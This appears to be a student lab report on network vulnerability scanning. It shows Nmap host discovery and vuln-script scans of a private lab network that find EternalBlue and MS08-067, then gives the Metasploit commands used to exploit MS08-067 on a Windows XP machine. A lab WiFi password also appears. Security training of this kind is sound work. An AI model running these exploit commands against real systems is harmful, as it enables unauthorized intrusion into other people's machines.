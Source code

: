 # Vulnerability Scanning Lab
## Introduction
This project report focuses on analyzing network vulnerabilities using Nmap and Nessus. The objective is to understand how to scan networks, identify active hosts, detect open ports, and exploit vulnerabilities using Metasploit Framework.

## Objectives

* Connect to the test environment and identify the IP address range.

* Perform network scanning to detect active hosts.

* Identify open ports and services running on discovered hosts.

* Scan for vulnerabilities in detected services.

* Utilize Metasploit Framework to exploit vulnerabilities and gain control over systems.

## Task Description

1. Connecting to the Lab Environment
* Connect to the test network WiFi4Hack using the password by hacked password (I$100301).</br>
![Connect to the test network](images/1.PNG) </br>
* Identify the network IP range for scanning.</br>

3. Performing Network Scanning

* Use Zenmap to scan the network: nmap -sP 192.168.37.1/24.</br>
![scan the network](images/2.PNG) </br>
* Identify active hosts and their operating systems.</br>
![scan the network](images/3.PNG) </br>
![scan the network](images/4.PNG) </br>
![scan the network](images/5.PNG) </br>
* Analyze open ports and services for each detected host.</br>

3. Detecting Vulnerabilities

* Use Nmap scripts to scan for vulnerabilities on port 445:</br>
nmap 192.168.37.102 --script vuln -p 445</br>
![scan for vulnerabilities on port 445](images/6.PNG) </br>
nmap 192.168.37.104 --script vuln -p 445 </br>
nmap 192.168.37.109 --script vuln -p 445</br>

* Identified vulnerabilities:</br>
EternalBlue (CVE-2017-0143)</br>
![scan for vulnerabilities on port 445](images/7.PNG) </br>
MS08-067 (CVE-2008-4250)</br>
![scan for vulnerabilities on port 445](images/8.PNG) </br>
4. Exploiting Windows Systems with Metasploit
* Use Metasploit Framework to exploit MS08-067 on a Windows XP machine:</br>
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.37.108
exploit </br>
![ Use Metasploit Framework to exploit](images/9.PNG) </br>
* Successfully gain control over the target system.</br>
![Successfully](images/10.PNG) </br>
## Key Observations

Nmap is a powerful tool for detecting active hosts and open ports.</br>

Nmap scripts help identify critical vulnerabilities.</br>

Metasploit Framework enables exploitation of known vulnerabilities.</br>

Windows XP and Windows Server 2003 are highly vulnerable due to outdated security patches.</br>

## Conclusion

This project demonstrated the use of Nmap and Metasploit for network vulnerability scanning and exploitation. We successfully identified security flaws in Windows XP and Windows Server 2003, executed exploits, and gained access to target systems. The exercise highlights the importance of regular security assessments and patch management in preventing cyber threats.
